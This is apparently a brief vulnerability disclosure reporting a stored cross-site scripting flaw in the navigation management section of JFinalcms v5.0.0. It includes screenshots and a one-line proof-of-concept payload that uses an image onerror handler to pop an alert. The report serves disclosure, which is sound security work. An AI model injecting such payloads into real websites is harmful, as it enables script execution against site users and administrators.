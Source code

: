 target:https://gitee.com/heyewei/JFinalcms

version:v5.0.0

There is a stored XSS in the navigation management office

![图片](https://github.com/Rabb1ter/cms/assets/40162457/3e520d9e-383d-43f1-8b3b-e09bfe5d3ddb)


poc: <img src=1 onerror=alert(1)>

![图片](https://github.com/Rabb1ter/cms/assets/40162457/4ace14eb-20eb-4b76-8321-f7fbb1daf557)


successed

![图片](https://github.com/Rabb1ter/cms/assets/40162457/1e7766f7-43b6-41cf-b442-c42dfa97469c)

